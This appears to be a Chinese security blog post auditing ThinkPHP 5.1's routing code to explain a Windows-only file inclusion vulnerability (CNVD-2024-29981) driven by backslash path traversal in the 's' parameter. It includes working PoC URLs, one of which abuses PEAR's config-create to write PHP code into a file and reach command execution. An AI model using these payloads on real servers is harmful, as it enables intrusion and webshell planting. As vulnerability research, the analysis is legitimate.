 ```yaml
---
layout: post
date: 2024-4-24
title: "Thinkphp5.1文件包含-CNVD-2024-29981"
author: "XinYiSleep"
---
```

```info
time:   4.24
测试版本:   thinkphp 5.1.41
php:    7.3.4
影响范围:   thinkphp5.1.0--thinkphp5.1.* （windows）: linux无法利用
漏洞利用poc:    index.php?s=..\..\你要包含的路径/index/index
pear进行命令执行poc:  /index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&+config-create+/<?=phpinfo();?>+1.php
```
调用堆栈：
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331415510.jpg)
<h1 id="tvbAq">一.Thinkphp文件包含:</h1>
**<font style="color:#000000;">在Thinkphp5中路由可以使用一下两种方式都可以访问到执行的方法中如： </font>**

```color5
http://127.0.0.1/index.php/index/index/hello
http://127.0.0.1/index.php?s=index/index/hello
//简单一点来说其实就是对应的 模块/控制器/方法
```
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331708376.jpg)
<h2 id="QbPXO">1.1: Thinkphp5.1.*审计过程</h2>
首先需要触发路由
http://127.0.0.1/index.php?s=index/index/hello
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331771501.jpg)  
进入run方法，
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331806586.jpg)  
走到405行routeCheck方法，根据注释也可以看出来是进行路由检测接着往下看
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331839134.jpg)  
600行path方法，
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331875986.jpg)
上面执行到了pathinfo,名字可以看出来就是路径信息的意思，下面是具体代码。
```php
public function pathinfo()
{
    if (is_null($this->pathinfo)) {
        if (isset($_GET[$this->config['var_pathinfo']])) {
            // 判断URL里面是否有兼容模式参数
            $pathinfo = $_GET[$this->config['var_pathinfo']];
            unset($_GET[$this->config['var_pathinfo']]);
            unset($this->get[$this->config['var_pathinfo']]);
        } elseif ($this->isCli()) {
            // CLI模式下 index.php module/controller/action/params/...
            $pathinfo = isset($_SERVER['argv'][1]) ? $_SERVER['argv'][1] : '';
        } elseif ('cli-server' == PHP_SAPI) {
            $pathinfo = strpos($this->server('REQUEST_URI'), '?') ? strstr($this->server('REQUEST_URI'), '?', true) : $this->server('REQUEST_URI');
        } elseif ($this->server('PATH_INFO')) {
            $pathinfo = $this->server('PATH_INFO');
        }

        // 分析PATHINFO信息
        if (!isset($pathinfo)) {
            foreach ($this->config['pathinfo_fetch'] as $type) {
                if ($this->server($type)) {
                    $pathinfo = (0 === strpos($this->server($type), $this->server('SCRIPT_NAME'))) ?
                    substr($this->server($type), strlen($this->server('SCRIPT_NAME'))) : $this->server($type);
                    break;
                }
            }
        }

        if (!empty($pathinfo)) {
            unset($this->get[$pathinfo], $this->request[$pathinfo]);
        }

        $this->pathinfo = empty($pathinfo) || '/' == $pathinfo ? '' : ltrim($pathinfo, '/');
    }

    return $this->pathinfo;
}


```
```info
关键点看下面的代码
if (isset($_GET[$this->config['var_pathinfo']])) {

                $pathinfo = $_GET[$this->config['var_pathinfo']];

                unset($_GET[$this->config['var_pathinfo']]);

                unset($this->get[$this->config['var_pathinfo']]);

  其中$this->config['var_pathinfo']是s参数也就是说获取了s的参数，并且销毁了GET传入的

s,和当前类的$this->get[s]的内容返回值是$pathinfo就是我们s传的内容。

  好了再回到path，会走到if里面其中也就是匹配我们传的参数有没有.html,意义不大。

$this->path = preg_replace('/\.(' . ltrim($suffix, '.') . ')$/i', '', $pathinfo);
```
上面就是获取url参数，**routeCheck并没有结束**
```info
606行 $dispatch = $this->route->check($path, $must); 
这个没什么太多必要进去看，写的又臭又烂，关键点就是执行think\route\dispatch\url类
在就是把/替换成|。
下面是执行过程截图。
```
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331988576.jpg)

![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332007814.jpg)

![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332031638.jpg)
然后就直接return了，在看看init方法做了什么。
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332049247.jpg)
**parseUrl方法是把路由进行分割成数组**，
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332109398.jpg)
```php
public function parseUrlPath($url)
{
    // 分隔符替换 确保路由定义使用统一的分隔符
    $url = str_replace('|', '/', $url);
    $url = trim($url, '/');
    $var = [];

    if (false !== strpos($url, '?')) {
        // [模块/控制器/操作?]参数1=值1&参数2=值2...
        $info = parse_url($url);
        $path = explode('/', $info['path']);
        parse_str($info['query'], $var);
    } elseif (strpos($url, '/')) {
        // [模块/控制器/操作]
        $path = explode('/', $url);
    } elseif (false !== strpos($url, '=')) {
        // 参数1=值1&参数2=值2...
        $path = [];
        parse_str($url, $var);
    } else {
        $path = [$url];
    }

    return [$path, $var];
```

```danger
关键代码，也就是之前|在变回去了。  
$url = str_replace('|', '/', $url);
下面就是分割成一个数组，这里是重点。
elseif (strpos($url, '/')) {
            // 模块
            $path = explode('/', $url);

```
最后给到$path并且在54行$module在获取数组第一个，后面就直接return了。
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332132336.jpg)
最后我们返回去看25行可以看到返回的时候new了一个类，并且执行了Module类的init方法跟进去。
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332177125.jpg)  
**至此到现在$this->dispatch都是我们能控制的，但是可以看到再次把/进行分割成数组了，所以/算是pass了，然后我们往下看，$result[0]也就是数组第一个给到$module。**
```php
if ($this->rule->getConfig('app_multi_module')) {
  // 多模块部署
  $module    = strip_tags(strtolower($result[0] ?: $this->rule->getConfig('default_module')));
  $bind      = $this->rule->getRouter()->getBind();
  $available = false;

  if ($bind && preg_match('/^[a-z]/is', $bind)) {
    // 绑定模块
    list($bindModule) = explode('/', $bind);
    if (empty($result[0])) {
      $module = $bindModule;
    }
    $available = true;
  } elseif (!in_array($module, $this->rule->getConfig('deny_module_list')) && is_dir($this->app->getAppPath() . $module)) {
    $available = true;
```
```danger
关键点也是重点，is_dir再熟悉不过了$this->app->getAppPath() 具体输出一下就可以路径了看到了
D://绝对路径/application/，主要看$module上面提到了这个是我们可控制的呀，但是限制了/。
} elseif (!in_array($module, $this->rule->getConfig('deny_module_list')) && is_dir($this->app->getAppPath() . $module)) {
    $available = true;
```
**$available变量为false,先让他为true，看到50行的时候是可以让$available变量为true,但是存在一个if，第一个条件是不为数组这个可以直接过了，因为在38行的时候他已经不是数组了，第2个条件是获取目录再加上$module变量其中$module变量是可以控制的，也就是说判断是否是一个真实存在的路径$this->app->getAppPath() 路径地址是 D://绝对路径/application/$module,那么大致思路就清晰了，默认情况下application存在 index extra，上面说到/已经用不了了因为他进行了2次分割成了数组，但是可以通过..\跳目录，这样..\就在一个value中不会进行分割，这也是为什么linux系统无法利用的原因，可以看下图上面也有分析到。**
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332209008.jpg)  
例如  ..\..\aa/bb/cc 分割成数组，但是..\并没有进行分割，在执行到parseUrl方法54行array_shift($path) 获取第一个数组也就是..\..\aa,60行的时候获取到了bb，所以这块就绕过了，然后我们思路再次回到 Module类，49行使用..\就可以走到true, 后面的57行if就可以就下去在走到60行的app类里面的init方法。
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332239058.jpg)
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332269204.jpg)  
可以看到323行遍历循环了一个参数$files，$files是从$module过来的，$module是我们的..\..\aa,321行获取了目录下面所有文件放到数组里面进行循环，在获取文件扩展名进行强比较,$this->configExt是php,所以在根目录下面创建目录，目录里面创建一个文件1.php 内容 /index.php?s=..\..\..\..\..\..\..\admin/user/name  其中admin是目录，user和name随便写,然后再去看load方法
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332296430.jpg)  
也就是看文件是否存在，再去loadFile方法，
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332318589.jpg)  
<font style="color:#DF2A3F;">查看扩展名是否是php，然后直接包含,为什么linux不能利用是因为linux不支持..\</font>
****
<h2 id="GVWoV">1.2: 漏洞利用</h2>
**<font style="color:#000000;">Version: thinkphp5.1.35</font>**
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332347707.jpg)
```java
thinkphp目录 D:\phpStudy\WWW\thinkphp5\public，在D盘根目录创建一个文件夹，下面存放1.php，
内容phpinfo();
POC: index.php?s=..\..\..\..\thinkphp5.1/xinyi/xinyi
```
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332372496.jpg)
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332400070.jpg)
<h2 id="KN9vm">1.3: 命令执行(pear写shell)</h2>
```java
POC:
/index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&+config-create+/<?=phpinfo();?>+1.php
```
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332418019.jpg)


